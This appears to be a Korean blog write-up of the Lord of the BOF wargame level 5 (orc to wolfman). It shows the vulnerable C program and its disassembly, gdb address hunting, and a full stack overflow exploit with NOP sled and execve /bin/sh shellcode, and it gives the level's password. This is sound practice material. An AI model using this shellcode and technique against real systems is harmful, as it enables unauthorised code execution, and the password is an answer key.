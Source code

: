 ```yaml
---
date: '2022-10-15'
before : '2022-10-14'
after : '2022-10-16'
title: '시스템 해킹(20) : FTZ LOB LEVEL 5'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 저번 문제와 크게 다르지 않았다.

### 1. Level 5 : Orc -> Wolfman

소스코드를 확인해 보자!

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

어셈블리 코드도 확인해보자!
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048640
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    nop
0x8048524 <main+36>:    mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:    nop
0x804852c <main+44>:    lea    %esi,[%esi*1]
0x8048530 <main+48>:    mov    %eax,DWORD PTR [%ebp-44]
0x8048533 <main+51>:    lea    %edx,[%eax*4]
0x804853a <main+58>:    mov    %eax,%ds:0x8049760
0x804853f <main+63>:    cmp    DWORD PTR [%eax+%edx],0
0x8048543 <main+67>:    jne    0x8048547 <main+71>
0x8048545 <main+69>:    jmp    0x8048587 <main+135>
0x8048547 <main+71>:    mov    %eax,DWORD PTR [%ebp-44]
```

사실 밑에 buffer hunter라는 녀석이 생긴 것 말고는 달라진 점은 없다. 우리는 어차피 NOP SLED 방식을 활용하므로 buffer hunter로 초기화해도 프로그램 실행 흐름상 버퍼오버플로우를 발생시키는 것에 무리는 없다.


저번 문제와 똑같이 카피코드를 gdb로 디버깅해서 주소를 찾았다.

```
b * main

r `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'` `python -c "print '\x90'*200+"B"*40'`

//대략적인 주소
0xbffffc3c
```

익스플로잇 :
```
./wolfman `python -c "print 'A'*44 + '\x3c\xfc\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
```

비밀번호 : love eyuna

 ---
## Source

- 해커스쿨 FTZ
- Me!
